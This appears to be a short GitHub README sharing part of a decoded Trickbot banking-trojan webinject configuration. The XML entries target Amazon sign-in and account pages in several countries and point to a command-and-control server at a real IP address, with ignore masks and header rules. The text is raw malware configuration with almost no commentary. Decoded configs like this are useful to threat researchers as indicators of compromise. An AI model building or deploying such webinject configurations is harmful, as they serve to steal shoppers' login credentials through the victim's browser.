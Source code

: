 # Trickbot_Dinj_Sinj

Decoded Webinject config Trickbot



    </igroup>
    <dinj>
    <lm>*amazon.*</lm>
    <hl>https://185.202.174.13:446/response.php?s=1527163537124692&id=DeJENQHkNQsIpSv5YWb8</hl>
    <pri>100</pri>
    <sq>2</sq>
    <ignore_mask>https://www.amazon.co.uk/ap/signin</ignore_mask>
    <ignore_mask>https://www.amazon.co.uk/*</ignore_mask>
    <ignore_mask>https://www.amazon.co.uk/gp/yourstore/home*</ignore_mask>
    <ignore_mask>https://sellercentral.amazon.com/ap/signin*</ignore_mask>
    <ignore_mask>https://sellercentral.amazon.com/gp/notifications/notification-widget-internals.html*</ignore_mask>
    <ignore_mask>*popokai.com*</ignore_mask>
    <ignore_mask>*.js*</ignore_mask>
    <ignore_mask>https://www.amazon.de/ap/signin</ignore_mask>
    <ignore_mask>https://www.amazon.ca/ap/signin</ignore_mask>
    <ignore_mask>https://www.amazon.de/gp/yourstore/home*</ignore_mask>
    <ignore_mask>https://www.amazon.ca/gp/yourstore/home*</ignore_mask>
    <ignore_mask>https://www.amazon.ca/*</ignore_mask>
    <ignore_mask>https://www.amazon.de/*</ignore_mask>
    <require_header>*text/html*</require_header>
    </dinj>
    <dinj>
    <lm>https://www.amazon.co.uk/ap/signin</lm>
    <hl>https://185.202.174.13:446/response.php?s=1527163537124692&id=sL5FRia9p0kAxzAm7uXQ</hl>
    <pri>100</pri>
    <sq>2</sq>
    <ignore_mask>*popokai.com*</ignore_mask>
    </dinj>
